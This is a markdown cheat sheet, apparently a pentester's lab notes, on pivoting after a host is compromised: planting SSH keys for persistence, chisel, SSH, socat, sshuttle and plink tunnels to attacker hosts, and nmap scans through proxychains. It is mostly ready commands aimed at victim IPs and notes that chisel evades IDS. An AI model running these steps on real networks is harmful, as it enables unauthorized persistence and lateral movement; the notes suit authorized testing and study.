 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Note about chisel

chisel performs HTTP tunneling thus aboiding most IDS. Use encryption for better efficiency.

## Persist

It is important to establish persistence before moving forward with actions on objectives.

### Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwardin


 <local-interface>:<local-port>:<remote-host>:<remote-port>

which does  port forwarding, sharing server's `<remote-host>:<remote-port>` on clients `<local-interface>:<local-port>`
 
* workflow

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now listener is on 192.168.1.15:8888 which forwards requests to attacker's localhost port 443. Useful to make attacker's external server available from victim within restricted network.

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

./chisel server -p 9903 --reverse on local 
./chisel client 10.10.xx.xx:9903 R:127.0.0.1:1280:172.16.xx.xx:80 &

This will open a listener on port 1280 on attackers localhost, and all connections to the target website on 172.16.xx.xx are going to be forwarded via pivot server at 10.10.xx.xx:9903

#### Dynamic reverse proxy

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

`./chisel server -p 3333 --reverse --socks5`

* on server

```bash
sudo vim /etc/proxychains4.conf

# socks5 127.0.0.1 1080

./chisel client 172.16.40.5:3333 R:1080:socks

# test

proxychains nmap -F 10.185.10.0/24
```

### Using SSH


#### SSH Local Port Forwarding

* we need to forward packets to target via ssh client's port 4455 over sshserver to target's port 445. where 192.168.11.2 is a pivot point.

`ssh -N -L 0.0.0.0:4455:10.16.223.217:445 root@192.168.11.2`

Attacker can access remote victim port 445 locally on port 4455.

#### SSH Remote Port forwarding

`ssh -N -R 9999:localhost:8080 user@remote`

This command tells SSH to set up a tunnel from the remote machine's port 9999 to your local machine's port 8080. user@remote should be replaced with your actual SSH login credentials and server.

#### SSH Dynamic Port forwarding

```bash
ssh -D 8080 -f -C -q -N user@yourserver.com
```
-D 8080 sets up the SOCKS proxy on port 8080.

-f asks SSH to go into the background just before command execution.

-C enables compression.

-q enables quiet mode.

-N tells SSH not to execute a remote command.

Then make a socks5 entry in proxy chains for .

##### Multi Hop Scenatio

lets assume: localhost -> 10.11.2.3 -> tor


### Using Socat

#### Forward proxy with socat

`socat -ddd TCP-LISTEN:7777,fork TCP:10.1.11.213:3060`

This line is going to open a listener on 7777 and fork each new connection. New connections are then forwarded to `10.1.11.213:3060`.

This is especially useful if socat is installed on target but not possible to install chisel.

## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

## Transparent VPN over ssh

* setup port forward to ssh server: `socat TCP-LISTEN:2222, fork TCP:10.11.222.3:22`
* use sshuttle (requires root privleges): sets up VPN and tunnels mentioned subnets

```bash

sshuttle -r root@127.0.0.1:2222 10.4.22.0/24 192.168.1.0/24

# now routing is setup on localhost to reach mentioned subnets
```

## SSH On windows with plink

use plink to tunnel once reverse shell on windows is obtained

`plink.exe -ssh -l kali -pw Password -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.203`

## DNS tunneling

